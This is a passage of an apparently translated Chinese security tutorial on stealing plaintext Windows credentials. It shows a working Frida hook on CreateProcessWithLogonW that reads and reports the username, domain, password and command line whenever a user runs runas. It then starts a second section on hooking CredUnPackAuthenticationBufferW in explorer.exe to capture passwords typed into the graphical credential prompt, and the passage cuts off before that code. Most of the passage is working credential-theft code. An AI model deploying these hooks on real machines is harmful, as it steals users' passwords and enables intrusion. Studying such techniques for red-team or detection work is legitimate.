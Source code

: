 ```
    Interceptor.attach(CreateProcessWithLogonW, { // getting our juice arguments (according to microsoft docs)
      onEnter: function (args) {
        this.lpUsername = args[0];
        this.lpDomain = args[1];
        this.lpPassword = args[2];
        this.lpCommandLine = args[5];
      },
      onLeave: function (args) { // getting the plain text credentials 
        send("\\n=============================" + "\\n[+] Retrieving Creds from RunAs.." +"\\n Username    : " + this.lpUsername.readUtf16String() + "\\nCommandline : " + this.lpCommandLine.readUtf16String() + "\\nDomain      : " + this.lpDomain.readUtf16String() + "\\nPassword    : " + this.lpPassword.readUtf16String()+ "\\n=============================");
  
      }
    });
  
    """)
  
    # If we got a hit then execute the "on_message_runas" function
    script.on('message', on_message_runas)
    script.load()
  except Exception as e:
    print(str(e))

if __name__ == "__main__":
  thread = Thread(target=WaitForRunAs)
  thread.start()
```

很好！让我们运行这个脚本：

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6o36ZrKicEHhCJd5dnJyuoqK3Gib0fhIEauJibmDib8IEvBaTRDQkqiajkYUh71KNLNFn7LFcPDY3F6g/640?wx_fmt=png)

**No.4 Credentials Prompt**

**（即 Graphical Runas）**

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6o36ZrKicEHhCJd5dnJyuo4HRf4FITd6RnP3BbHtqv8lHIxsuEfnGNONZGyxVrWo9uTf1IozKr5A/640?wx_fmt=png)

要想实现凭证提示功能，其实非常简单，因为具体步骤基本上跟 runas 的 CLI 版本没有什么两样。首先，让我们启动 API Monitor，然后，利用 API Monitor 中的进程定位器，我们就可以看到该进程是 explorer.exe：

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6o36ZrKicEHhCJd5dnJyuon37WnzbVaY1e2u7JVtUk6JQDr9BrSVeHibeQLT65v2A8GlxalibWEg3Q/640?wx_fmt=png)

然后，通过前面的步骤，我就能够发现 Credui.dll 的 CredUnPackAuthenticationBufferW 函数被调用了。

根据微软的官方文档：

CredUnPackAuthenticationBuffer 函数将调用 CredUIPromptForWindowsCredentials 函数，以便把返回的认证缓冲区中的内容转换为一个字符串，即用户名和密码。

这样的话，我们就可以编写相应的 JavaScript 和 python 脚本了，具体代码如下所示：
